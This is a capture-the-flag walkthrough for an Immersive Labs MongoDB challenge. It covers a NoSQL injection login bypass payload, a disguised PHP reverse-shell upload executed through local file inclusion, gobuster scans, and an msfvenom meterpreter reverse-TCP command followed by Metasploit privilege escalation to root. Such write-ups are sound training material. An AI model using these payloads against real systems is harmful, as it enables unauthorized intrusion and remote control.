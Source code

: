 ```yaml
---
date: 2025-03-11
categories: [CTF, ImmersiveLabs]
title: "IML - MongoDB NoSQL Injection"
tags: ['gobuster', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'sqli', 'mongodb', 'nosqli']

description: "MongoDB NoSQL Injection - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - MongoDB NoSQL Injection

- Scan:

![image1](../resources/dc68505ba0864de89dcbc29127f8388e.png)

- Going to Port 80:

![image2](../resources/a7898c43ea7041698d258cb4e54b8357.png)

- We get a Login page and since this box is a MongoDB box, we can assume this is NoSqli

- Looking on:
<https://book.hacktricks.xyz/pentesting-web/nosql-injection>


![image3](../resources/c9def18806cf4472be56dc2ece822dd4.png)

**username\[\$ne\]=toto&password\[\$ne\]=toto**

- We need to see how the server crafts its authentication
- Open Burp Suite and capture the traffic from a login


![image4](../resources/a27c94f24a8c41c0afcd125882cd4ae2.png)

- Send this to the Repeater and change the authentication line

![image5](../resources/bfa8a8a7fb6e41628d11a6e18b6a68e9.png)

- Send it off and look at the Response (If this doesn't work - reset machine)

![image6](../resources/8bf395c7e7504e80aa048e02d2b92711.png)

**admin : Superhardpassword**

- Login with the credentials


![image7](../resources/d6631dba9b19474980bb6031b286edec.png)

- After trying to upload non jpeg files with a .jpeg extension and getting FAILED everytime, it's time to consider something else.
The jpeg header

- Since this Kali machine is closed off from the internet, we can search the machine itself for a jpeg image file:

```bash
find / -type f -name "\*.jpeg" 2>/dev/null

```

![image8](../resources/29bf84d6e48f48ca8ddf5362ec7eda7d.png)


![image9](../resources/7ef1dab00d0341a0a00afe4ac8944f61.png)

- Upload the thumbnail.jpeg and we get success:

![image10](../resources/fec7fe7f170c4c9c90b943774540a542.png)

- Through testing - all it needs to be successful is to have .jpeg at the end and for the data to start with:

![image11](../resources/b65bc279152b4a6293f90fb5cee5dc8b.png)

As show here:


![image12](../resources/26d3d3be75984cdf99a8f9e6ad2e5558.png)

- We can bruteforce for directories to see if we can execute the file (if we uploaded something malicious):

```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

```

![image13](../resources/61b9f6553bbf475e903c13677738c706.png)

- In /img:

![image14](../resources/a3527fc433964ac187cef8147bededf5.png)

- As this didn't lead to anything. I did another scan but with extensions this time:

```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php

```

![image15](../resources/e1c51a5287f84c94bb2851f546978d20.png)

- If we look at /test/php:

![image16](../resources/3a0220dc3cff4b11a1e1686ba6e89040.png)

- This is a LFI vulnerability:

![image17](../resources/8c9ca2bf342d4c53b31d3ee9b801d5a7.png)

We can access some of the mongodb file like mongod.conf and mongod.log


![image18](../resources/5200828d9e1c4f93a6a3909c7a0b0ba1.png)

As well as check what apps are running - /proc/self/cmdline


![image19](../resources/299d41fb79944563858602dc2d51812d.png)
- We can also see if we can get any ssh private keys
- But that didn't give much

- We can get to the /img directory (where the uploaded images were stored):

![image20](../resources/7aab26b12e66490cae891130a80b43a0.png)

- So the way I got this to work is:

- Upload a legitimate .jpg file
- Capture the request in Burp
- Send to Repeater

- Now remove all the jpeg data, **apart** from the first (JFIF) line
- Paste in the php reverse shell code under this line
(I used pentestmonkey's script - <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>)

- Also rename the filename so it ends with **.php.jpg**

- So it looks like this:

![image21](../resources/0e6e05be2b5a40918d63673f96224047.png)

Don't upload the php directly, and then try and add the JFIF line afterwards - it doesn't recognize it and will fail

- Send that request and you should get Successful

- Set up a nc listener on the port you specified in the script

- And in a new Burp request (captured from the LFI):
Go to /var/www/html/img/**\<image_name\>**.php.jpg


![image22](../resources/b7915beb3bbf44f88e8d9ed613b3fc83.png)

- And we got a shell:

![image23](../resources/eef72054242e4fb1b669d0d17cbdc442.png)

- Upgrade the shell:
/usr/bin/script -qc /bin/bash /dev/null

**<u>Priv Esc</u>**
- Querying MongoDB didn't give anything:

![image24](../resources/e334e020bbd54d808d8b9bca8b46f62e.png)

- After lots of enumerating - found nothing so to get root I did:

- Created a meterpreter payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.143.238 LPORT=8881 -f elf -o reverse.elf

```

![image25](../resources/0aedcd2630bb4e57a534c7bb2a975d38.png)

- Uploaded the payload to the target with python server and curl

- Once I got the meterpreter session back, I used the module - **multi/recon/local_exploit_suggester** to give me potential priv esc modules:

![image26](../resources/b93bca4bf16d4288883f1cd8e6f5a616.png)

- I then used the module - **exploit/linux/local/bpf_sign_extension_priv_esc** to get root and get the flag:

![image27](../resources/ade1d27ea346404fbd1956b4e57081f0.png)
